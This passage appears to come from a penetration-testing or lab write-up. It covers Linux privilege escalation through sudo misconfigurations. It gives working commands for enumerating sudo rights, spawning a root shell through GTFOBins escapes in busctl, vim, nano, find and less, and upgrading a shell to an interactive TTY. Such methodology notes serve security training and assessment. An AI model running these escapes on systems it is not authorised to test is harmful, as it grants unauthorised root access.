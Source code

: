 
### Phase 5: Sudo Misconfiguration Exploitation

**Objective**: Abuse sudo permissions with GTFOBins techniques for root privilege escalation

#### Sudo Permission Enumeration
```bash
# Check sudo privileges
sudo -l

# Look for NOPASSWD entries
sudo -l | grep "NOPASSWD"

# Identify allowed commands
sudo -l | grep -E "\(root\)"
```

#### GTFOBins Sudo Exploitation
```bash
# For busctl sudo permissions
sudo busctl --show-machine
# In busctl pager prompt:
!/bin/bash

# Other common GTFOBins exploits:
# vim: sudo vim -c ':!/bin/bash'
# nano: Ctrl+R Ctrl+X -> reset; bash 1>&0 2>&0  
# find: sudo find . -exec /bin/bash \; -quit
# less: sudo less /etc/passwd -> !/bin/bash
```

#### Shell Upgrade
```bash
# Upgrade dumb shell to interactive TTY
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Alternative upgrade methods
script /dev/null
stty raw -echo; fg; reset; export SHELL=/bin/bash; export TERM=screen
```

**Essential Knowledge**: Sudo misconfigurations with GTFOBins-listed binaries provide immediate root access - always cross-reference sudo permissions with GTFOBins database.

---

## 🔧 Assessment Techniques Summary

### 1. Hidden File Discovery
- **Technique**: `ls -lA` and recursive hidden file enumeration
- **Target**: Configuration directories and hidden files containing credentials
- **Impact**: Initial access and sensitive information disclosure
